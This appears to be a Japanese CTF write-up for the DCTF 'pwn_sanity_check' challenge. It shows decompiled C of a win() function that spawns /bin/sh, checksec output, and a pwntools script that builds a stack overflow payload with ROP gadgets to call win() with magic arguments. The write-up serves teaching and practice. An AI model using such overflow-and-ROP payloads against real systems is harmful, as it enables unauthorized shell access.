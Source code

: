 ```C
void win(int param_1,int param_2)

{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
}
```

まず、vuln()では、BOFを起こす際にローカル変数（local_c）も書き換えないといけません。

その後にshell() があるので、シェルが取れるかと思いきや、"try harder" と言われます。

<pre>
$ ./pwn_sanity_check_solve.py
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
very good, here is a shell for you.
spawning /bin/sh process
wush!
$> If this is not good enough, you will just have to try harder :)
</pre>

<br /><br />
No PIEなので、引数をセットしてからwin()関数のアドレスに飛べばよさそうです。

<pre>
$ checksec pwn_sanity_check
[*] '/home/captureamerica/Mac_Downloads/pwn_sanity_check'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

<br /><br />
書いたコード。

```Python
#!/usr/bin/env python
from pwn import *

s = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

pop_rdi = 0x0000000000400813
pop_rsi = 0x0000000000400811

payload = ''
payload += b'A' * 60
payload += p64(0xdeadc0de)  # local_c (-0x21523f22)
payload += b'B' * 4
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)  # param_1 (-0x21524111)
payload += p64(pop_rsi)
payload += p64(0x1337c0de)  # param_2
payload += p64(0x0000000000400697)  # win()
```